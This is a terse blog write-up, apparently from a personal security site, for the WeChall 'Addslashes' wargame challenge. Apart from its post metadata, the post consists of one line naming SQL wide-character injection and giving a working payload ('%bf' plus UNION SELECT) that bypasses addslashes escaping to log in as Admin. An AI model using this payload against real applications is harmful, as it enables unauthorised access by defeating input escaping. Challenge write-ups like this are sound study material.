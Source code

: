 ```yaml
---
title: Addslashes
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/06/17/addslashes
  - /writeup/2014/06/17/addslashes/
tags:
  - sql
  - wechall
---
```

<http://www.wechall.net/challenge/addslashes/index.php>  
SQL宽字符注入，`username=a%bf'%20union%20select%200x41646d696e--%20`
